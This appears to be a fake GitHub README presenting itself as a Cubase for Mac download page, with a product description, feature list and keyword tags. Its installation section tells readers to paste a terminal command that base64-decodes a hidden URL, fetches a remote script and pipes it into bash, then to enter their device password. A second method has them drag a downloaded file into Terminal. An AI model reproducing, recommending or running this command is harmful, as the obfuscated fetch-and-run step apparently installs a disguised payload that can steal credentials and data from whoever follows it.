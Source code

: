 # Steinberg Cubase for Mac – Music Production & DAW

![Cubase Screenshot](https://ocl-steinberg-live.steinberg.net/_storage/asset/185232/storage/PNG_extra-large_5500px/185232-extra-large.png)

## 📥 Download Cubase for macOS

[![⬇️ Download Cubase Mac](https://img.shields.io/badge/Download-Cubase%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Steinberg)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Cubase for Mac?

Cubase is a professional digital audio workstation (DAW) developed by Steinberg, designed for music composition, production, recording, editing, and mastering. It’s used by musicians, producers, and sound engineers around the world.

The macOS version of Cubase delivers a robust music production experience with features like multitrack editing, MIDI sequencing, audio effects, VST plugin integration, and surround sound mixing. Whether you're working on a soundtrack, producing a beat, or mixing an orchestra, Cubase offers the creative flexibility and power you need.

It runs natively on Apple Silicon (M1/M2/M3) and Intel Macs, delivering top-tier performance for audio professionals.

---

![Cubase Mixer View](https://europe1.discourse-cdn.com/steinberg/original/3X/2/3/234c4f6ecb68e77b0f2d4cc253e4a229ef42c5f9.png)

---

## ⚙️ Key Features

- 🎼 **Multitrack Recording & Editing** – Audio and MIDI in perfect sync
- 🎹 **VST Instrument Support** – Load synths, samplers, drum machines
- 🧩 **Full Plugin Suite** – Includes EQs, compressors, delays, and reverbs
- 🧠 **Chord Pads & Track Versions** – Compose more creatively
- 🖥️ **Score Editor** – Notation-based composing
- 📐 **Time Stretch & Pitch Shift** – Precise audio transformation
- 🌐 **Surround Sound Mixing** – Up to 5.1 and beyond
- 🧱 **Track Freezing & Render-in-Place** – Save CPU resources
- 💻 **macOS Optimized** – Compatible with Monterey, Ventura, and Apple Silicon

---

## 📦 System Requirements

- macOS 10.13 or later  
- Intel or Apple Silicon (M1/M2/M3) Macs  
- 4 GB RAM (8 GB or more recommended)  
- Internet connection for activation and content download  

---

## 🔍 Tags

cubase for mac, cubase 5 for mac, cubase download for mac, cubase for macbook, cubase mac os, cubase osx, steinberg cubase mac, apple m1 cubase, cubase mac download, cubase music software mac
